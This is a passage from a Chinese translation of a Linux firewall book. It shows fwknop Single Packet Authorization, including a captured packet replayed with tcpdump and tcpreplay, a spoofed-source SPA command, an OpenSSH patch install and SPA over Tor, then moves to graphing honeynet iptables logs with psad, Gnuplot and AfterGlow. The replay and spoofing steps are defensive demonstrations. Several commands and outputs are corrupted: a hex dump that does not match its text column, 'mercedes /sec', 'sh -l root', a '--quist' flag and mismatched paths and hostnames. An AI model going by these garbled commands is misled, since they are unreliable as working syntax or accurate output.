（用于通信）。另一个表明数据包可能是 SPA 方案一部分的迹象是，攻击者的 IP 地址无法访问 `SSHD`，但在 `spacient` 和 `spaserver` 之间可以建立 SSH 会话。随后，攻击者 ⓚ 在网络上向 `spaserver` 系统重放该 SPA 数据包，试图连接到 SSH 服务器。运行在 `spaserver` 上的 `fwknop` 守护进程检测到了重放的 SPA 数据包（如 ⓛ 中的 `syslog` 消息所示），且 `iptables` 策略并未授予攻击者任何访问权限。虽然这里没有显示，但 `fwknop` 还会发送一封电子邮件警报，以强调之前的 SPA 数据包被重放的事实，因为在任何合理的情况下都不应该发生这种情况。

```
[@] sb@spacient :$ fwknop -l spaserver
[+] Running with last command-line args: -A tcp/22 --gpg-recip fwknop_server --gpg-sign fwknop_client -R -k spaserver
[+] Starting fwknop in client mode.
[+] Resolving hostname: spaserver
    Resolving external IP via: http://www.myipimyp.com/
    Got external address 204.23.X.X

[+] Enter the GnuPG password for signing key: fwknop_client
GnuPG signing password:
[+] Building encrypted Single Packet Authorization (SPA) message...
[+] Packet fields:

    Random data: 2018495891979939
    Username:    nbr
    Timestamp:    1161229378
    Version:     1.0
    Action:      ( access mode)
    Access:       204.23.X.X/tcp/22
    MD5 sum:      1p5311YnuSxw/sa361T3w
```

```
[send 1010 byte message to 71.57.1.X:X over udp/62201...]
[root@attacker :$ tcpdump -i eth0 -ln -nn -s 0 udp port 62201 -w spa.pcap]
[root@attacker :$ tcpdump -r spa.pcap | head]
reading from file spa.pcap, link-type EN10MB (Ethernet)
21:34.03.883144 IP 204.23.X.X:42245 -> 71.57.1.X:62201, UDP, length 1010
0x0000: 4500 00e4 4000 0f e5 4000 0000 0000 0000 0000 E....E....
0x0010: 0000 0009 0000 4f55 77f5 3175 0a5e 05b5 4894 60af....
0x0020: 4177 7648 3166 7175 5555 5478 6841 60f6 4a11 60f2 AvwhG0ew54V3G0XHeF/
0x0030: 5754 6339 4275 6639 7774 5664 7789 5374 5a8e 5870 6837Vks0BySdwV3GReAF/
0x0040: 65b9 5074 6789 5364 481b 4841 5978 4948 3548 6378 KPv0dPtSdsIw1H5HN
0x0050: 5689 4474 5638 481b 4841 5978 4948 3548 6378 1a5d DtCcuBab1AGL6eL3
0x0060: 4479 7443 7531 6261 2989 4671 3765 4365 3635 43 B02W8B18gyugAziR
0x0070: 4262 3632 5973 3717 4231 3869 3975 7141 5072 8a 42f 524d /qzh24hpBjyS/jM
0x0080: 0001 2870 6174 85ea 0400 0000 0000 0000 0000 0000
[root@attacker :$ tcpreplay -i eth0 spa.pcap]
sending on eth0:
1 packets ( 1002 bytes) sent in 0.15 seconds
6831169.0 bytes/sec 52.12 megabits/sec mercedes /sec 6493 packets/sec
[root@attacker :$ sh -l root 71.57.1.X:X]
[root@spaserver :$ tail -f /var/log/messages]
Oct 18 23:32:50 spaserver fwknopd: attempted message replay from: 204.23.X.X
```

## 欺骗 SPA 数据包源地址

SPA 协议支持欺骗源 IP 地址。这是由两个因素决定的：`fwknop` 服务器能够从 SPA 数据包载荷内部获取真实的源地址，以及 SPA 数据包通过 UDP 发送且不期望有回传流量。

`fwknop` 使用 Perl 的 `Net::RawIP` 模块通过原始套接字（raw socket）发送 SPA 数据包，这允许你通过 `fwknop` 客户端命令行将源 IP 地址设置为任意值（这需要 root 权限）。在图 13-3 中，`spaclient` 系统发送 SPA 数据包，但 IP 标头中的源 IP 地址经过伪造，使数据包看起来像是来自 207.132.X.X IP 地址。当 `fwknopd` 在 `spaserver` 系统上运行时，它从网络线缆中嗅探到该 SPA 数据包，但它授予的是真实 `fwknop` 客户端 IP 地址 204.23.X.X 的 SSHD 访问权限，而不是伪造的源 IP 地址 207.132.X.X。



图 13-3. 来自欺骗源地址的 SPA 数据包

请注意，下面显示的 `fwknop` 客户端命令变得更加复杂。这是为了支持欺骗 SPA 数据包的源 IP 地址（以 root 身份），同时使用由 `mbr` 用户所有且位于 `/home/mbr/.gnupg` 目录中的 `fwknop_client` 密钥来构建加密载荷。

```
[root@splacient ~]# fwknop --Spoof-src 207.132.X.X -A tcp/22 --gpg-home-dir /home/smr/.gnupg --Spoof-usr mbr --gpg-recip "fwknop_server" --gpg-sign "fwknop_client" --quist -R -k spaserver
GnuPG signing password:
```

下面的 `syslog` 消息表明，`fwknop` 服务器嗅探到了 SPA 数据包，该数据包源自 ① 伪造的源地址 207.132.X.X，而访问权限被授予了 ② 加密数据包中所包含的 IP 地址 204.23.X.X。

```
[root@spaserver ~]# tail /var/log/messages
Oct 18 23:51:37 spaserver fwknopd: received valid GnuPG encrypted packet (signed with required key ID: "fwknop_client") from: ①207.132.X.X, remote user: mbr
Oct 18 23:51:37 spaserver fwknopd: FWKNOP_INPUT ACCEPT rule for ②204.23.X.X tcp/22 (30 seconds)
```

## fwknop OpenSSH 集成补丁

`fwknop` 项目希望使 SPA 的使用尽可能简单且用户友好。能够减轻用户负担的一点就是与各种客户端应用程序无缝集成。由于 SPA 最常见的应用是保护 SSH 通信，因此 `fwknop` 提供了一个针对 OpenSSH 源代码的补丁，该补丁集成了直接从 OpenSSH 客户端命令行执行 `fwknop` 客户端的能力。为了实现这一点，你必须先将补丁应用于 OpenSSH 源代码并重新编译。以下说明如何针对 OpenSSH-4.3p2 版本完成此操作（假设源代码位于 `/usr/local/src`）。

```
$ cd /usr/local/src/openssh-4.3p2
$ wget http://www.cipollinedyns.eu/LinuxFirewalls/ch13/openssh-4.3p2_SPA.patch
$ patch -p1 < openssh-4.3p2_SPA.patch
patching file config.h.in
patching file configure
patching file configure.ac
patching file ssh.c
$ ./configure --prefix --with-spa-mode && make
$ su
# Password:
# cd /usr/local/src/openssh-4.3p2
# make install
```

关于上述命令最重要的一点是，传递给 `configure` 脚本的 `--with-spa-mode` 参数确保了在编译 OpenSSH 时包含 SPA 补丁代码。

现在，安装了修改后的 SSH 客户端后，可以直接从 SSH 命令行调用 `fwknop` 客户端，从而无需在利用 SSH 建立连接前手动运行 `fwknop`。该补丁为 SSH 添加了新的命令行参数 `-K fwknop args`；可以使用该参数来访问 `spaserver` 系统，而无需单独运行 `fwknop` 客户端。

```
[mbr@splacient ~]$ ssh -K "--gpg-recip ABCD1234 --gpg-sign DEFG5678 -A tcp/22 -R -k spaserver" mbr@spaserver
GnuPG signing password:
Password:
Last login: Wed Oct 17 15:48:19 2007 from spaclients
[mbr@spaserver ~]#
```

`fwknop` 服务器端熟悉的日志消息表明已收到 SPA 数据包，并确认该数据包通过了检查（即：它使用了所需的密钥 ID 进行加密且未在网络上被重放）。

```
Oct 17 15:53:39 spaserver fwknopd: received valid GnuPG encrypted packet (signed with required key ID: A7A282997 from 204.23.X.X, remote user: mbr
Oct 17 15:53:39 spaserver fwknopd: adding FWKNOP_INPUT ACCEPT rule for 204.23.X.X -> tcp/22 (30 seconds)
```

新的 `SSH -K` 选项将其参数传递给 `fwknop` 命令行，因此 `fwknop` 提供的所有功能都暴露在 SSH 命令行中。这包括 `-L host` 参数，正如本章前面提到的，该参数允许对同一主机利用之前使用过的 `fwknop` 命令行。因此，以下命令将起作用：

```
ssh -K "-L host" user@host
```

## 通过 Tor 实现 SPA

*洋葱路由 (Tor)* 是一个匿名网络，由一组全球分布的节点（称为洋葱路由器）组成（详见 [http://tor.eff.org](http://tor.eff.org)）。Tor 网络旨在增强基于 TCP 的服务，以抵御一种名为流量分析的互联网监视。*流量分析* 用于确定互联网上谁在与谁通信，任何能够访问互联网流量的组织（尤其是 ISP）都可以轻松部署。即使是加密的应用流量也容易受到流量分析的影响，因为 IP 地址是以明文传输的。

## 注意

这里我不考虑 IPSEC 或其他 VPN 协议，但即使是这些协议也可能通过流量分析泄露信息。

仅通过观察双方通信就能获取的信息往往被低估，这对从保证密码安全到揭露所谓匿名转发器的身份等所有事情都有影响。

Tor 的工作原理是为每个 TCP 连接在路由器云中建立一个单独的虚拟电路。虚拟电路在*入口路由器*和随机选择的*出口路由器*之间建立。每个电路都是唯一的，电路中的每个跳数（hop）仅知道流量源自哪个跳数以及流量必须发送到哪个跳数。此外，流量在进入路由器云后会被加密。

最终结果是，客户端可以通过开放的互联网与服务器通信

通过这个虚拟电路，任何能够监控进出路由器云流量的第三方，看到的都将是两个看似完全无关的 IP 地址在相互通信。<sup>84</sup>

通过 Tor 网络发送 SPA 数据包是否有好处？答案是肯定的，因为这扩展了 `fwknop` 的服务隐藏特性，使得在服务器端更难判定是否使用了 SPA。

但这里有一个陷阱：Tor 使用 TCP 进行传输。这意味着 Tor 与 SPA 不兼容，因为 SPA 数据包默认通过 UDP 传输。尽管 `fwknop` 支持通过盲 TCP ACK 数据包发送 SPA 数据包，<sup>85</sup> 但仅靠这一点不足以让 SPA 数据包穿越 Tor 网络。只有在与入口路由器的初始 TCP 连接完全建立之后，才会通过 Tor 创建虚拟电路，这意味着需要双向通信。

`fwknop` 通过打破 SPA 的单包特性，并在与 `fwknop_serv` 守护进程建立的完整 TCP 连接上发送 SPA 数据包来解决这个问题。该守护进程生成一个以 `nobody` 用户身份运行的极简 TCP 服务器，在 TCP 端口 62201 上执行 `bind()` 和 `listen()`，然后循环调用 `accept()`。每次执行 `accept()` 时，仅进行一次 `recv()`，这样客户端在会话关闭前只能发送一个 TCP 段。这允许客户端在已建立的 TCP 连接中仅发送 SPA 载荷而没有其他内容。然后，通过使用充当 Tor 所需 `socks4` 代理的 `socat` 程序，结合 `fwknop` 命令行上的 `--TCP-sock` 参数，SPA 数据包即可通过 Tor 网络发送。

## 注意

有关 `socat` 的更多信息，请参阅 http://www.dest-unreach.org/socat。

---

<sup>82</sup> 通过不安全介质传输密钥是一个抽象概念，包括将共享密钥写在纸上并通过邮件在双方之间传递等行为。

<sup>83</sup> 谜题通常源自经典的计算问题，例如两个大质数乘积的整数分解，或循环群上的离散对数计算。后者被 GnuPG 中的 Elgamal 加密系统所使用；简要概述请参阅 http://en.wikipedia.org/wiki/elgamal_encryption。

<sup>84</sup> 针对 Tor 曾出现过一些攻击，旨在降低其抵御流量分析的能力；请参阅 http://www.cl.cam.ac.uk/users/sjm217/papers/papers05torta.pdf。

<sup>85</sup> 盲 TCP ACK（或其他设置了标志位的 TCP 数据包）不属于已建立的 TCP 连接的一部分。

## 结语

本章和第 12 章阐述了计算机安全中的强大技术，展示了如何通过默认丢弃（default-drop）的数据包过滤器来保护服务器，只有能够向被动监控设备证明身份的客户端才能获得访问权限。端口敲门（Port knocking）是第一个实现该想法的技术，但由于端口敲门架构存在一些严重的限制（包括难以充分解决重放问题以及无法传输超过几十个字节的数据），SPA 已证明自己是一种更鲁棒的技术。授权以太网嗅探器结合默认丢弃数据包过滤器的概念在计算机安全领域相对较新，但似乎每天都有新的实现方案出现。<sup>86</sup>

基于 `iptables`，`fwknop` 是 SPA 的一个开源实现，它为 SPA 范式下的多用户管理提供了灵活的机制。

---

<sup>86</sup> 甚至有一个项目旨在将基于 HMAC 的 SPA 直接放入 `iptables`；请参阅 http://svn.berlios.de/svnroot/repos/portknocko，以及 Netfilter 开发邮件列表存档中的讨论帖 http://lists.netfilter.org/pipermail/netfilter-devel/2006-october/thread.html。

# 第 14 章. IPTABLES 日志可视化

在当今开放互联网的威胁环境下，安全数据的可视化变得日益重要。从入侵检测系统到防火墙，安全设备在应对来自全球各地的攻击时会产生海量的事件数据。理解如此庞大的数据量是一项巨大的挑战。安全数据的图形化表示允许管理员快速发现新兴趋势和异常活动，而如果没有专用代码，这些活动将很难被检测到。也就是说，图形在传达 *上下文* 和 *变化* 方面非常有效，因为人类眼睛可以快速识别出否则难以发现的关系。


本章探讨了使用 `Gnuplot` (http://www.gnuplot.info) 和 `Afterglow` (http://afterglow.sourceforge.net) 项目进行绘图，以生成 `iptables` 日志数据的图形表示。我们的主要数据源将是来自 `Honeynet Project` (http://www.honeynet.org) 的 `iptables` 日志。

`Honeynet Project` 是安全社区的一项宝贵资源：它公开发布从遭受攻击的实时蜜罐系统中收集的原始安全数据，如 `Snort` 警报和 `iptables` 日志。`Honeynet Project` 的主要目标是通过一系列“扫描挑战”使这些安全数据可用于分析，挑战结果发布在 `Honeynet Project` 网站上。在本章中，我们将对 `Scan34 Honeynet` 挑战的数据进行可视化（见 http://www.honeynet.org/scans/scan34）。您可以从 http://www.cipherdyne.org/linuxfirewalls 下载本章中提到的所有图表和 `Gnuplot` 指令文件。

## 注意

本章所有示例均假设 `Scan34` `iptables` 数据文件在当前目录下名为 `iptables.data`。

## 察觉异常

考虑以下一组数字：

`5, 4, 2, 1, 3, 4, 55, 80, 75, 80, 120, 9, 2, 3, 1, 5, 4`

这组数据代表某个特定 IP 地址每分钟连接的 TCP 或 UDP 端口数量；这些信息可以通过解析 `iptables` 日志数据获得。注意数据集中的峰值，端口数量迅速从 4 增加到 120，然后又回到了 1 到 5 之间的稳定状态。

当这些数据使用 `Gnuplot` 进行图形化表示时（如图 14-1 所示），峰值立即显现。



**图 14-1. 每分钟访问端口的数据包数量**

端口扫描是解释此峰值的一种可能。其他解释可能是 `iptables` 策略配置不当，导致记录了良性流量，或者错误地记录了作为已建立连接一部分的 TCP ACK 数据包。<sup>87</sup> 峰值的实际解释在这里并不重要——重要的是这个峰值是异常的。图表可以轻松快速地显示现状的剧烈变化，并允许您将精力集中在这些问题区域。

在前面的示例中，在如此小的数据集中发现模式相对容易。现在，假设您面对的是由 1,000 或 100,000 个数字组成的类似数据集。除非将这些数据绘图，否则用肉眼从如此大量的数据中提取趋势是一项艰巨的挑战。

图 14-2 是一个包含 800 多个点的图表，记录了 `iptables` 策略在约五周时间内每小时记录的 TCP SYN 数据包数量。数据源是 `Scan34 Honeynet` 扫描挑战的 `iptables` 日志文件，并使用 `psad` 解析数据以便用 `Gnuplot` 渲染。



**图 14-2. 每小时访问端口的 SYN 数据包数量**

如您所见，从图表中挑出感兴趣的区域非常容易。x 轴分为独立的小时，并以周为单位标注；y 轴显示访问端口的数据包数量，以 500 为增量标注。3 月 27 日的巨大峰值迅速引导您进入一个值得仔细研究的时间间隔。

---

<sup>87</sup> 这可能是由于 TCP 连接关闭相关的时序问题引起的。具体而言，`Netfilter` 连接跟踪子系统为处于 `CLOSE-WAIT` 状态的 TCP 连接设置了 60 秒定时器（见内核源码 `linux/net/ipv4/netfilter/ip_conntrack_proto_tcp.c` 文件中的 `ip_ct_tcp_timeout_close_wait` 变量），但有时在定时器过期后，随后的 TCP ACK 数据包（用于通过 `CLOSING` 和 `LAST-ACK` 状态完成连接关闭）仍可能在传输途中。这导致 TCP ACK 数据包未被识别为现有连接的一部分，从而可能触发默认的 `iptables` `LOG` 和 `DROP` 规则。

## Gnuplot

`Gnuplot` 项目可以生成多种类型的图表，从直方图到彩色三维曲面图。它擅长绘制大型数据集，例如源自数十万行 `iptables` 日志数据的点图。

在本章中，为了对 `iptables` 日志数据进行可视化，我们使用 `Gnuplot` 来生成二维和三维的点图及线图。`Gnuplot` 要求输入格式化的数据，其本身并不具备解析 `iptables` 日志消息所需的机制。`Gnuplot` 理想的输入是一个包含按列排列的整数值的文件——二维或三维图中的每个轴占用一列。这就是 `psad` 通过其 `--gnuplot` 模式发挥作用的地方。在此模式下，`psad` 解析 `iptables` 日志数据并将结果写入一个可由 `Gnuplot` 处理的文件中。

为了在您的 Linux 系统上复制本章中的图表（或为您自己的 `iptables` 数据生成新图表），您需要同时安装 `psad` 和 `Gnuplot`。

### Gnuplot 绘图指令

`Gnuplot` 在绘制数据时遵循一系列配置指令。这些指令描述了渲染细节，例如图表类型、坐标范围、输出模式（例如，输出到图形文件或终端）、轴标签和图表标题。每条指令可以通过在命令提示符下输入 `gnuplot` 进入 `Gnuplot` 交互式 shell 来设置，也可以通过 `Gnuplot` 加载的文件来设置。例如，图 14-2 中的每小时端口数据是使用以下 `Gnuplot` 指令文件绘制的：

```
$ cat fig14-2.gnu
reset
set title "psad iptables log visualization; timestamp dp:counthour" 
set terminal png transparent nocrop enhanced
set output "fig14-2.png"
set xdata time
set timefmt "%s" 
set format x "%H:%M" 
set xlabel "time"
set xrange ["1140887484":"1143861780"]
set ylabel "dp:counthour"
set yrange [0:30000]
plot "fig14-2.dat" using 1:2 with lines
```

上述 `fig14-2.gnu` 文件中最重要的指令如下：

- **set title**：位于 ① 处的图表标题，在本例中由 `psad` 设置，我们将在下一节中看到。

- **set terminal**：位于 ② 处的终端设置和输出文件。如果您希望 `Gnuplot` 启动一个交互式窗口以便在图表上移动光标，则可以省略此项。（这在查看复杂数据集时很有帮助。）

- **set xdata time**：位于 ③ 处的时间设置，以及接下来的两行中的时间输入和输出格式，它们告诉 `Gnuplot` 每个点的 x 坐标是一个时间值。

- **set xrange**：位于 ④ 处的 x 轴范围，在本例中设置为 `Scan34` 数据集的起始值和结束值。（时间值是自 Unix 纪元，即 1970 年 1 月 1 日 00:00 UTC 以来经过的秒数。）

- **plot**：位于 ⑤ 处的绘图设置是最重要的 `Gnuplot` 指令，因为它告诉 `Gnuplot` 原始数据的位置以及如何绘制。在本例中，使用 `fig14-2.dat` 文件中的数据创建了一个二维线图。我们在本章中将看到的其他绘图样式包括二维和三维的点图（`splot` 指令使 `Gnuplot` 进入三维模式）。`using 1:2` 字符串指定了 `fig14-2.dat` 文件中要绘制的列号；在三维模式下，`using 1:2:3` 告诉 `Gnuplot` 将第 1、2 和 3 列分别绘制为 x、y 和 z 轴。

### 结合 psad 和 Gnuplot

正如第 6 章和第 7 章所述，`psad` 提供的一项核心功能是解析和解释 `iptables` 日志消息的能力。通过使用一系列命令行开关，可以将 `psad` 的解析能力与 `Gnuplot` 的绘图能力结合起来。

其中最重要的开关是 `--gnuplot`。额外的命令行参数为 `psad` 解析 `iptables` 日志数据和构建 `Gnuplot` 数据输入文件的方式增加了一定程度的可配置性，这些选项如下：

- **--CSV-fields**：设置要从 `iptables` 日志中提取的字段。常用的字段包括 `src`、`dst`、`dp` 和 `proto`（它们分别映射到 `iptables` 日志消息中的 `SRC`、`DST`、`DPT` 和 `PROTO` 字段）。每个 `--CSV-fields` 都接受一个额外的匹配标准，以允许排除或包含特定值。例如，如果仅在源 IP 地址位于 `192.168.50.0/24` 子网内、目的 IP 地址位于 `10.100.10.0/24` 子网内且目的端口为 80 时包含数据点，可以使用 `--CSV-fields "src:192.168.50.0/24 dst:10.100.10.0/24 dp:80"`。此外，通过 `countday`、`counthour` 和 `countmin` 字符串支持在三个时间尺度（天、小时或分钟）上进行字段计数。

- **--CSV-regex**：对原始 `iptables` 日志字符串执行正则表达式匹配，且仅在正则表达式匹配时才包含消息中的字段。例如，若要求 `fwsnort` 日志前缀为 `$SIDnnn$`（见第 10 章），其中 `$nnn$` 是任意三位数字，可以使用 `--CSV-regex "SID\d{3}"`。通过 `--CSV-neg-regex` 命令行参数还支持否定正则表达式。

- **--gnuplot-graph-style**：设置 `Gnuplot` 绘图样式。可能的值包括 `lines`、`dots`、`points` 和 `linespoints`。

- **--gnuplot-file-prefix**：设置一个文件前缀名称，`psad` 在解析 `iptables` 日志数据时用它来创建 `*prefix.dat*` 和 `*prefix.gnu*` 两个文件。`*prefix.gnu*` 文件包含用于绘制 `*prefix.dat*` 文件中数据的 `Gnuplot` 指令。

## AfterGlow

`AfterGlow` 专注于将数据可视化为链接图（link graphs），在最新版本中还支持树图（tree maps）。*链接图* 是一种节点和边的表示法，用于传达节点之间的关系。这种图非常适合显示 IP 地址和端口号之类的数据。`AfterGlow` 由安全可视化网站 http://www.secviz.org 的创始人 `Raffael Marty` 开发，该网站包含从 SSH 连接到 `iptables` 策略的各种讨论和可视化示例；多位 `AfterGlow` 用户向该网站贡献了可视化作品。

`psad` 与 `AfterGlow` 的接口与 `Gnuplot` 的接口类似。对于 `AfterGlow`，`--CSV-fields` 命令行参数同样重要，用于指定要从 `iptables` 日志文件中提取的字段，而 `--CSV-regex` 和 `--CSV-neg-regex` 参数也同样适用，以便可以使用正则表达式过滤数据。

例如，若要让 `AfterGlow` 构建一个从 `11.1.0.0/16` 网络发送到 `11.1.0.0/16` 网络之外系统的所有出站 SYN 数据包的链接图，您可以执行以下命令：

```bash
# psad -m iptables.data --CSV --CSV-fields "src:11.1.0.0/16 dst:not11.1.0.0/16 dp" \
--CSV-regex "SYN UNP" | perl afterglow.pl -c color.nor.nf | neato -Tpng -o webconnections.png
```

上述命令的结果是 `webconnections.png` 图形文件中对解析数据的可视化。我们将在本章后面看到由 `AfterGlow` 生成的链接图示例，但需要注意的一个重要特性是，您可以通过在 `AfterGlow` 命令行中使用 `-c` 参数（上述加粗部分）提供配置文件路径，来控制每个绘图节点的相关颜色。这是一个示例配置文件，它是 `AfterGlow` 源码中提供的默认 `color.properties` 文件的修改版本：

```
# AfterGlow Color Property File

#
# @fields is the array containing the parsed values
# color.source is the color for source nodes
# color.event is the color for event nodes
# color.target is the color for target nodes
#
# The first match wins

@ color.source="yellow" if ($fields[0]=~/^\s*11\ .11\./);
color.source="red"
@ color.event="yellow" if ($fields[1]=~/^\s*11\ .11\./);
color.event="red"
@ color.target="blue" if ($fields[2]>1024)
color.target="lightblue"
```

`AfterGlow` 链接图显示了源节点、事件节点和目标节点之间的连接。在上述示例中，所有源节点都是包含在 `11.11.0.0/16` 网络，它们在 ① 处被标记为黄色。所有事件节点在 ② 处被标记为红色（`11.11.0.0/16` 网络永远不会匹配，因为我们在 `psad` 命令行中使用了 `not11.11.0.0/16` 匹配标准，将所有事件节点限制为外部地址）。所有大于 1024 的端口号在 ③ 处被标记为蓝色，而下一行将所有小于或等于 1024 的端口标记为浅蓝色。您可以使用创意性的颜色定义，为复杂的 `AfterGlow` 链路图添加有效的视觉辅助。

## iptables 攻击可视化

`Honeynet Project` 的 `Scan34` `iptables` 数据集包含了许多从安全角度来看非常有趣的事件证据。其中涵盖了端口扫描（Port scans）、端口扫描探测（port sweeps）、蠕虫流量以及某个特定蜜网系统的彻底失陷。

根据 `Honeynet Project` 网站上的 `Scan34` 报告，蜜网系统的所有 IP 地址都经过了脱敏处理，并被映射到 `11.11.0.0/16` C 类网络中（以及少数其他被脱敏为 `22.22.0.0/24`、`23.23.0.0/24` 和 `10.22.0.0/16` 网络的系统）。以下章节中的许多图表展示了源自 `11.11.0.0/16` 网络之外真实 IP 地址的流量。在许多情况下，下文提到了扫描或攻击的完整源地址，因为这些地址已经包含在公开的蜜网 `iptables` 数据中，但这并不一定意味着目前仍有与这些地址相关的恶意行为者。

### 端口扫描

端口扫描的一个关键特征是扫描者向一系列端口发送数据包。因此，在可视化大型 `iptables` 数据集时，将源 IP 地址与发送到唯一端口的数据包数量进行绘图，是提取端口扫描活动的一种好方法。以下 `psad` 的执行过程使用了 `--CSV-fields "src:not11.11.0.0/16 dp:countuniq"` 命令行参数，以绘制非本地源地址与发送到唯一端口的数据包数量的关系图：

```bash
# psad -m iptables.data --gnuplot --CSV-fields "src:not11.11.0.0/16 dp:countuniq" \
--gnuplot-graph points --gnuplot-xrange 0:265500 --gnuplot-file-prefix fig14-3
[+] Entering Gnuplot mode...
[+] Parsing iptables log messages from file: iptables.data
[+] Parsed 17973 iptables log messages
[+] Writing parsed iptables data to: fig14-3.dat
[+] Writing gnuplot directive file: fig14-3.gnu
$ gnuplot fig14-3.gnu
```

`Gnuplot` 生成了图 14-3 所示的图表。

